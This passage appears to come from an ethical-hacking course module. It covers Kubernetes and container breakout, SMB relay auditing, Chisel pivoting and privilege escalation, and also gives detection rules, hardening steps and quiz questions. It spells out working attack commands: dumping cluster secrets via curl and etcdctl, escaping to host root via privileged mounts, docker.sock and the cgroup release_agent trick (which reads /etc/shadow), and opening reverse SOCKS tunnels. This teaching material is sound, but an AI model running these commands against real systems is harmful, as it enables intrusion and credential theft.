         path: /
   ```
2. **`pods/exec`**: Allows spawning an interactive shell inside any other pod running on the cluster (including `kube-system` control pods).
3. **`get secrets` or `list secrets`**: Allows dumping all cluster secrets, API tokens, database credentials, and cloud access keys:
   ```bash
   curl -s --cacert $SA_PATH/ca.crt -H "Authorization: Bearer $TOKEN" \
        "$APISERVER/api/v1/namespaces/kube-system/secrets" | jq .
   ```

#### 5.6.3 Unauthenticated Kubelet (10250) & etcd (2379) Exploitation

1. **Kubelet API Port 10250 Exploitation**:
   - If the node's Kubelet has `--anonymous-auth=true` enabled (or an attacker possesses a token with node permissions), the auditor can execute arbitrary commands in any pod managed by that node:
   ```bash
   # List all pods running on the node
   curl -k https://<NODE_IP>:10250/pods
   
   # Execute command directly inside a running container via Kubelet
   curl -k -X POST "https://<NODE_IP>:10250/run/<NAMESPACE>/<POD_NAME>/<CONTAINER_NAME>" \
        -d "cmd=id"
   ```
2. **Unauthenticated etcd Port 2379 Exploitation**:
   - `etcd` stores the complete state and configuration of the Kubernetes cluster. If port 2379 is reachable without client TLS certificate authentication:
   ```bash
   # Dump all cluster keys and secrets stored in etcd
   etcdctl --endpoints=https://<MASTER_IP>:2379 get "" --prefix --keys-only
   
   # Extract all service account tokens across the cluster
   etcdctl --endpoints=https://<MASTER_IP>:2379 get /registry/secrets/kube-system/ --prefix
   ```

#### 5.6.4 Container Breakout Vectors to Host Node Root

```
[ Compromised Container Shell ]
               │
   ┌───────────┼───────────────────────────┐
   ▼                           ▼                           ▼
[ Vector 1: Privileged ]   [ Vector 2: Docker Socket ]   [ Vector 3: CAP_SYS_ADMIN ]
Mount host block device     Sibling container with -v /   cgroups v1 release_agent
`mount /dev/sda1 /mnt`      `docker run -v /:/host`       kernel notification trigger
   │                           │                           │
   └───────────────────────────┼───────────────────────────┘
                               ▼
               [ Root Shell on Underlying Host Node ]
```

1. **Breakout Vector 1: Privileged Container (`--privileged`)**:
   - A privileged container has access to all host devices in `/dev`.
   - The attacker discovers the host root drive with `fdisk -l` or `lsblk` and mounts it:
     ```bash
     mkdir -p /mnt/host
     mount /dev/sda1 /mnt/host
     chroot /mnt/host /bin/sh
     # Auditor now possesses interactive root access on the physical host!
     ```
2. **Breakout Vector 2: Mounted Docker Daemon Socket (`/var/run/docker.sock`)**:
   - If the container shares the host's Docker socket, the container can communicate directly with the host's Docker daemon:
     ```bash
     # Launch a sibling container that mounts the host root directory
     docker -H unix:///var/run/docker.sock run -v /:/host -it alpine chroot /host /bin/sh
     ```
3. **Breakout Vector 3: `CAP_SYS_ADMIN` & cgroup v1 `release_agent` Breakout**:
   - If a container runs with `CAP_SYS_ADMIN` and apparmor is disabled, the auditor can abuse the cgroup `release_agent` mechanism to execute arbitrary commands as host `root`:
     ```bash
     # 1. Mount memory cgroup controller
     mkdir -p /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp
     mkdir -p /tmp/cgrp/x
     echo 1 > /tmp/cgrp/x/notify_on_release
     
     # 2. Configure release_agent script on host filesystem
     HOST_PATH=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)
     echo "$HOST_PATH/cmd.sh" > /tmp/cgrp/release_agent
     
     # 3. Write command payload
     echo '#!/bin/sh' > /cmd.sh
     echo 'cat /etc/shadow > /cmd_output' >> /cmd.sh
     chmod +x /cmd.sh
     
     # 4. Trigger release agent by emptying the cgroup process list
     sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
     ```

---

## 6. Security Perspective: Lateral Movement & Network Trust Boundaries

```
+----------------------------------------------------------------------------------------------------+
|                                    INTERNAL NETWORK TRUST HIERARCHY                                |
+----------------------------------------------------------------------------------------------------+
|  [ TIER 0: DOMAIN IDENTITY CORE ]      Domain Controllers / Root PKI / ADFS / Entra Connect        |
|  ================================== [ STRICT TIER 0 ISOLATION ACLs ] ============================  |
|  [ TIER 1: ENTERPRISE SERVERS ]        Database Clusters / Hypervisors / File Storage Servers      |
|  ================================== [ TIER 1 FIREWALL SEGMENTATION ] =============================  |
|  [ TIER 2: WORKSTATIONS & ENDPOINTS ]  Employee Laptops / Corporate Desktops / Mobile Devices      |
|  ================================== [ ZERO-TRUST ENDPOINT ISOLATION ] ===========================  |
|  [ PERIMETER & DMZ ]                  Public Web Gateways / Edge Load Balancers / Reverse Proxies |
+----------------------------------------------------------------------------------------------------+
```

### Key Principles:
1. **Never Assume Internal Traffic Is Trusted**: Breaches routinely originate on unmanaged endpoints or via compromised user credentials.
2. **Prevent Tier Inversion**: Low-privilege workstations (Tier 2) must never possess direct administrative access (SMB, RDP, WinRM) to Tier 0 Domain Controllers.

---

## 7. Auditing Methodology: The Network Assessment Workflow

```
[ Phase 1: Calibrated Subnet Discovery ]
      │ Execute rate-limited TCP connect sweeps identifying active hosts and ports.
      v
[ Phase 2: Service Enumeration & Security Posture Audit ]
      │ Audit SMB signing requirements, RDP NLA status, and SSH cipher negotiation.
      v
[ Phase 3: Non-Destructive Vulnerability Verification ]
      │ Submit benign null-session probes and protocol capability queries (MS-SMB2 / RPC).
      v
[ Phase 4: Local Privilege Escalation Auditing ]
      │ Enumerate unquoted service paths, token privileges (SeImpersonate), and Linux SUIDs.
      v
[ Phase 5: Multi-Hop Pivot Tunnel Establishment ]
      │ Deploy Chisel/Ligolo agents; route traffic across internal firewall barriers.
      v
[ Phase 6: Post-Exploitation Cleanup & Evidence Sealing ]
      │ Terminate pivot processes, remove test artifacts, and seal cryptographic manifests.
```

---

## 8. Tooling Deep-Dive: Enterprise Auditing Utilities

### 8.1 SMB Auditing via NetExec

```bash
# Audit SMB signing status across an entire target subnet (generates relay list)
netexec smb 10.10.20.0/24 --gen-relay-list smb_relay_targets.txt

# Inspect SMB shares, null session access, and guest permissions
netexec smb 10.10.20.10 -u '' -p '' --shares

# Check local administrator password reuse across endpoints (validates credential isolation)
netexec smb 10.10.20.0/24 -u 'LocalAdmin' -p 'AdminP@ss123' --local-auth
```

### 8.2 Establishing Chisel Encrypted SOCKS5 Tunnels

```bash
# 1. On Assessor Machine (Kali): Launch Chisel Server listening on port 8000
chisel server -p 8000 --reverse

# 2. On Compromised Pivot Host (DMZ): Connect back as reverse SOCKS client
# Exposes internal subnet 10.10.20.0/24 via local assessor port 1080
chisel client 192.168.56.10:8000 R:1080:socks

# 3. On Assessor Machine: Route port scans through proxychains into internal subnet
proxychains4 nmap -sT -Pn -p 445,3389,80,443 10.10.20.10
```

---

## 9. Practical Lab: Standalone Service Auditing, Pivoting & Privesc Engine

Deploy this standalone script to audit Windows unquoted service paths, decode SMB signing posture, inspect Linux SUID vectors, and simulate multi-hop network pivoting.

Save as [`labs/module_32/service_audit_and_pivot_engine.py`](file:///home/kali/Ethical_Hacking_VAPT_Master_Notes/labs/module_32/service_audit_and_pivot_engine.py):

```python
#!/usr/bin/env python3
"""
================================================================================
MODULE 32 LAB: NETWORK SERVICE AUDITING, PIVOTING & PRIVILEGE ESCALATION ENGINE
PURPOSE: Programmatic auditing of SMB signing, unquoted service paths (CWE-428),
         SOCKS5/TCP pivoting logic, and Linux SUID security posture.
COMPLIANCE: Authorized testing only / Standard benign network diagnostic probing.
================================================================================
"""

import socket
import threading
import http.server
import time
import sys
import os

def analyze_unquoted_service_path(raw_path):
    """
    Simulates the Windows CreateProcess path resolution algorithm for unquoted
    service binary paths containing spaces (CWE-428).
    """
    cleaned = raw_path.strip()
    print(f"[*] Analyzing Windows Service Path: {cleaned}")
    
    # Check if properly quoted
    if cleaned.startswith('"') and cleaned.endswith('"'):
        print("    [+] SECURE: Service path is properly wrapped in quotation marks.\n")
        return []

    # Strip arguments
    parts = cleaned.split(".exe")
    exec_path = parts[0] + ".exe"
    
    tokens = exec_path.split(" ")
    if len(tokens) <= 1:
        print("    [+] SECURE: Path contains no spaces; no hijacking ambiguity.\n")
        return []

    print("    [!] VULNERABILITY (CWE-428): Unquoted service path with spaces detected!")
    search_candidates = []
    current = ""
    for i in range(len(tokens) - 1):
        current = f"{current} {tokens[i]}".strip()
        candidate = f"{current}.exe"
        search_candidates.append(candidate)
        print(f"        -> Hijack Evaluation Target {i+1}: '{candidate}'")
    print()
    return search_candidates

def audit_smb_signing_posture(security_mode_byte):
    """
    Decodes SMB2 NEGOTIATE response SecurityMode flags.
    Bit 0 (0x01): SMB2_NEGOTIATE_SIGNING_ENABLED
    Bit 1 (0x02): SMB2_NEGOTIATE_SIGNING_REQUIRED
    """
    enabled = bool(security_mode_byte & 0x01)
    required = bool(security_mode_byte & 0x02)

    print(f"[*] Evaluating SMB Security Mode Byte: 0x{security_mode_byte:02x}")
    print(f"    - Signing Enabled:  {enabled}")
    print(f"    - Signing Required: {required}")

    if not required:
        print("    [!] CRITICAL VULNERABILITY: SMB Signing NOT required!")
        print("        Host is vulnerable to NTLM Relay attacks on Layer 2.")
        return False
    else:
        print("    [+] SECURE: SMB Signing is strictly enforced. Relay attacks blocked.")
        return True

def audit_linux_suid_vectors(root_dir="/"):
    """Audits local system for dangerous SUID binaries that can be leveraged for privesc."""
    print("[*] Auditing Local Linux SUID Binaries (Sample Audit):")
    known_gtfo_bins = {"nmap", "vim", "find", "bash", "python", "perl", "cp", "awk"}
    
    test_dirs = ["/bin", "/usr/bin", "/sbin", "/usr/sbin"]
    discovered_suid = []

    for d in test_dirs:
        if not os.path.exists(d):
            continue
        try:
            for fname in os.listdir(d):
                fpath = os.path.join(d, fname)
                if os.path.isfile(fpath) and not os.path.islink(fpath):
                    mode = os.stat(fpath).st_mode
                    if mode & 0o4000: # SUID bit
                        discovered_suid.append(fpath)
                        if fname in known_gtfo_bins:
                            print(f"    [!] HIGH RISK SUID BINARY: {fpath} (Documented GTFOBins bypass vector!)")
        except PermissionError:
            pass

    print(f"    [i] Total SUID binaries audited in system paths: {len(discovered_suid)}")
    return discovered_suid
```

---

## 10. Evidence & Verification: Verifying True Exploitability

### 10.1 Eliminating SMB Signing False Positives
Automated vulnerability scanners often report `SMB Signing Enabled` and mark the finding as Informational. Security auditors must verify whether signing is **Required**:

| Server SMB Configuration | SecurityMode Byte | Nmap / NetExec Output | True Vulnerability Status |
| :--- | :--- | :--- | :--- |
| `Digitally sign: If server agrees` | `0x01` (Enabled, Not Required) | `Message signing enabled but not required` | **VULNERABLE to NTLM Relay** |
| `Digitally sign: Always` | `0x03` (Enabled & Required) | `Message signing enabled and required` | **SECURE (Relay Blocked)** |
| `Signing disabled` | `0x00` (Disabled) | `Message signing disabled` | **CRITICAL VULNERABILITY** |

---

## 11. Telemetry & Defensive Detection

### 11.1 Windows Security Log Event IDs
* **Event ID 4624 (Logon Type 3 - Network)**: Triggered when an SMB, RPC, or RDP session authenticates over the network. Correlate rapid Type 3 logons across multiple IPs to detect lateral movement.
* **Event ID 7045 (Service Installation)**: Triggered when a new Windows service is created (detects PsExec and malicious service execution).
* **Event ID 4672 (Special Privileges Assigned)**: Logs logon sessions assigned `SeDebugPrivilege` or administrative rights.

### 11.2 Sysmon Event ID 1 (Process Creation with Tunneling Utilities)
```xml
<QueryList>
  <Query Id="0" Path="Microsoft-Windows-Sysmon/Operational">
    <Select Path="Microsoft-Windows-Sysmon/Operational">
      *[System[(EventID=1)]] and 
      *[EventData[Data[@Name='CommandLine'] and 
        (contains(.,'chisel') or contains(.,'ligolo') or contains(.,'plink') or contains(.,'proxychains'))]]
    </Select>
  </Query>
</QueryList>
```

---

## 12. Mitigation & Secure Implementation

### 12.1 Enforcing SMB Signing via Group Policy
1. Open Group Policy Management Editor (`gpmc.msc`).
2. Navigate to: `Computer Configuration -> Policies -> Windows Settings -> Security Settings -> Local Policies -> Security Options`.
3. Enable:
   * `Microsoft network server: Digitally sign communications (always)` -> **Enabled**.
   * `Microsoft network client: Digitally sign communications (always)` -> **Enabled**.

### 12.2 Enforcing Remote Desktop Network Level Authentication (NLA)
In Windows System Properties -> Remote Desktop:
* Enable **"Allow remote connections only to computers running Remote Desktop with Network Level Authentication"**.

---

## 13. CIS & NIST Hardening Controls

| Control ID | Target Component | Required Hardening Action | Standard |
| :--- | :--- | :--- | :--- |
| **CIS Windows Benchmark 2.3.11.2** | SMB Server | Require SMB packet signing on all domain-joined endpoints | CIS Benchmark |
| **CIS Windows Benchmark 18.9.62.2** | Remote Desktop | Enforce Network Level Authentication (NLA) for all RDP connections | CIS Benchmark |
| **CWE-428 Hardening** | Windows Services | Ensure all service binary paths containing spaces are wrapped in quotes | MITRE CWE-428 |
| **CISA Alert AA22-011A** | Network Perimeters | Disable Link-Local Multicast Name Resolution (LLMNR) and NetBIOS | CISA Guidance |

---

## 14. Real-World Case Studies

### Case Study: NotPetya Global Cyber Outbreak (2017)
* **Threat Mechanism**: NotPetya paralyzed multinational logistics operations by automating internal lateral movement across enterprise subnets.
* **Attack Chain**: Upon gaining initial access to an accounting server, the malware extracted local administrator credentials from memory using Mimikatz and combined stolen credentials with **PsExec**, **WMI**, and **EternalBlue (MS17-010)** to execute lateral movement across unsegmented internal networks in seconds.
* **Architectural Failure**: Lack of internal network segmentation, un-enforced SMB signing, and identical local administrator passwords across workstations enabled total enterprise compromise.

---

## 15. Common Pitfalls & Anti-Patterns

```
❌ ANTI-PATTERN 1: Running SYN Scans Through SOCKS5 Proxies
   Attempting `proxychains nmap -sS 10.10.20.10`.
   Fails completely because SOCKS5 proxies operate in user space and cannot encapsulate raw Layer-3 SYN packets.
   ✔ CORRECT: Use TCP connect scans (`proxychains nmap -sT`) or deploy Layer-3 TUN tunnels (Ligolo-ng).

❌ ANTI-PATTERN 2: Enforcing SMB Signing Exclusively on Domain Controllers
   Enforcing signing on DCs but leaving all member servers and workstations unsigned.
   Attackers easily relay workstation authentications to compromise internal file servers and management systems.
   ✔ CORRECT: Enforce SMB signing across 100% of domain workstations and servers via Group Policy.

❌ ANTI-PATTERN 3: Leaving Tunneling Binaries and Pivot Agents on Target Hosts
   Forgetting to terminate Chisel agents or plink sessions upon engagement completion.
   Leaves permanent backdoor communication tunnels exposed inside client networks.
   ✔ CORRECT: Maintain a rigorous post-engagement cleanup checklist, removing all test binaries and verifying closed sockets.
```

---

## 16. Professional vs. Naive Methodology

| Operational Phase | Naive / Novice Approach | Professional Application Security Auditor Approach |
| :--- | :--- | :--- |
| **Pivoting Execution** | Relies on single-hop scanning; declares internal subnets inaccessible. | Establishes multi-hop SOCKS5/TUN pivot chains to systematically audit internal tiers. |
| **SMB Auditing** | Sees port 445 open and reports generic "SMB service exposed." | Audits SMB negotiation flags to verify whether signing is required or vulnerable to relay. |
| **Privilege Escalation** | Executes noisy, uncalibrated automated enumeration scripts. | Surgically inspects service binary permissions and SUID configurations with zero service disruption. |
| **Cleanup & Closure** | Disconnects abruptly, leaving modified service binaries and tunnels active. | Kills all background tunnel processes, restores original service configs, and verifies clean state. |

---

## 17. Graded Knowledge Check & Interview Questions

### Beginner Level
1. **Question**: What is the difference between an open port that has SMB signing "Enabled" versus one that has SMB signing "Required"?
   * *Answer*: If SMB signing is "Enabled but not Required," the server supports signing but will happily communicate without it if the client requests an unsigned session. This allows an attacker to perform an NTLM Relay attack by stripping the signing flag during relay. If SMB signing is "Required," the server will strictly reject any connection that is not cryptographically signed, neutralizing NTLM relay attacks.
2. **Question**: Why does Remote Desktop Network Level Authentication (NLA) improve infrastructure security?
   * *Answer*: NLA requires the connecting client to authenticate via CredSSP before the RDP server initializes the graphics subsystem, loads the logon GUI, or creates a desktop session. This blocks unauthenticated remote code execution flaws (like BlueKeep), prevents unauthenticated DoS, and prevents unauthenticated user enumeration.

### Intermediate Level
3. **Question**: Explain how an unquoted service path vulnerability (CWE-428) is exploited in Windows.
   * *Answer*: When a service executable path contains spaces and lacks enclosing quotes (e.g., `C:\Program Files\App\service.exe`), Windows attempts to locate the executable by interpreting each space as an argument delimiter. It checks `C:\Program.exe`, then `C:\Program Files\App.exe`, before finally executing the full path. If an unprivileged user has write permissions to `C:\`, they can place a binary named `Program.exe`. Upon system reboot or service restart, `services.exe` executes `Program.exe` with `SYSTEM` privileges.

### Advanced / Scenario-Based
4. **Question**: You have compromised a Linux web server in a DMZ (`10.10.10.10`) that has a second interface connected to an internal database subnet (`10.10.20.1/24`). You need to run Nmap to discover open database ports on `10.10.20.15`. Describe two distinct pivoting methods to accomplish this.
   * *Answer*:
     * *Method 1 (SOCKS5 Proxy via Chisel)*: Deploy the Chisel client on the Linux DMZ host connecting back to your assessor Kali machine (`chisel server --reverse`). Forward a dynamic SOCKS5 proxy on `127.0.0.1:1080`. Configure `/etc/proxychains4.conf` to route traffic through `socks5 127.0.0.1 1080`. Run `proxychains4 nmap -sT -Pn -p 3306,5432,1433,1521 10.10.20.15`. (Must use `-sT` since SOCKS cannot proxy raw SYN packets).
     * *Method 2 (Layer-3 TUN Pivot via Ligolo-ng)*: Start the Ligolo-ng proxy on Kali. Run the Ligolo-ng agent on the Linux DMZ host. Establish a reverse session. On Kali, create a virtual TUN interface and add a kernel route: `sudo ip route add 10.10.20.0/24 dev ligolo`. Run `nmap -sS -p 3306,5432,1433,1521 10.10.20.15` directly from your command line without proxychains.
5. **Question**: Explain how an Active Directory Certificate Services (ADCS) ESC1 misconfiguration allows a standard domain user to escalate directly to Domain Administrator.
   * *Answer*: ESC1 occurs when a certificate template has `Client Authentication` EKU, permits standard users to enroll, and has the flag `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` enabled. An attacker requests a certificate from the CA specifying the Subject Alternative Name (SAN) of `administrator@corp.local`. The CA issues an X.509 certificate for the Domain Administrator. The attacker then authenticates via Kerberos PKINIT (e.g., using `certipy auth`), presenting the certificate private key to the KDC, which returns a valid Domain Admin TGT and NTLM hash.
6. **Question**: If an auditor obtains shell access inside a Kubernetes container, how do they determine their cluster privileges and attempt a container breakout to the host?
   * *Answer*: First, the auditor extracts the mounted ServiceAccount token from `/var/run/secrets/kubernetes.io/serviceaccount/token`. Using `kubectl auth can-i --list --token=$TOKEN`, they check RBAC verbs. If `create pods` is permitted, they deploy a privileged pod that mounts the host root directory (`hostPath: /`). If already in a privileged container (`--privileged`), they mount the host block device directly (`mount /dev/sda1 /mnt && chroot /mnt /bin/bash`). If `/var/run/docker.sock` is mounted, they use the Docker binary/API to spawn a sibling container with host root mounted.

---

## 18. Progressive Hands-on Exercises

### Level 1: Windows Service Path Analysis (Beginner)
* Execute [`labs/module_32/service_audit_and_pivot_engine.py`](file:///home/kali/Ethical_Hacking_VAPT_Master_Notes/labs/module_32/service_audit_and_pivot_engine.py).
* Inspect the output of the Unquoted Service Path Analyzer.
* Modify the script to test paths containing three spaces (e.g., `C:\Custom Apps\Enterprise Tools\Management Agent\daemon.exe`).

### Level 2: SMB Signing Posture Verification (Intermediate)
* In your virtual research lab, audit the SMB signing posture of a Windows Server target using `netexec smb <target_ip>`.
* Modify local Group Policy on the server to require SMB signing.
* Re-scan the target and verify that the output transitions from `signing:false` to `signing:true`.

### Level 3: Multi-Hop Chisel SOCKS5 Tunneling (Advanced)
* In an isolated lab, start a Chisel reverse server on your Kali machine on port 8888.
* Execute `chisel client <kali_ip>:8888 R:1080:socks` on an intermediate pivot VM.
* Route an automated Python audit script through `127.0.0.1:1080` using PySocks or Proxychains to successfully retrieve data from an isolated internal service.

---

## 19. Key Takeaways

1. **Attack Chains Drive Risk**: Penetration testing proves real business impact by chaining minor configuration flaws across network boundaries.
2. **Require SMB Signing Everywhere**: SMB signing is non-negotiable; leaving it disabled or optional on member servers permits total domain NTLM relay compromise.
3. **Pivoting Bridges Boundaries**: SOCKS5 and Layer-3 TUN tunnels allow auditors to systematically evaluate internal segmentation ACLs.
4. **Audit Endpoint Hardening**: Unquoted service paths and misconfigured SUID binaries provide trivial privilege escalation paths if left unaddressed.
5. **Always Verify Cleanup**: Rigorous post-engagement cleanup ensures zero testing binaries or active reverse tunnels remain inside client environments.

---

## 20. Authoritative References

* **NIST SP 800-115**: Section 4 - Target Testing and Vulnerability Execution.
* **Penetration Testing Execution Standard (PTES)**: Exploitation and Post-Exploitation Phases (`pentest-standard.org`).
* **MITRE ATT&CK**: Lateral Movement (TA0008) and Privilege Escalation (TA0004).
* **Microsoft MS-SMB2 Specification**: Server Message Block Version 2 and 3 Protocol.
* **CISA Alert AA22-011A**: *Mitigating Attacks on SMB Infrastructure*.
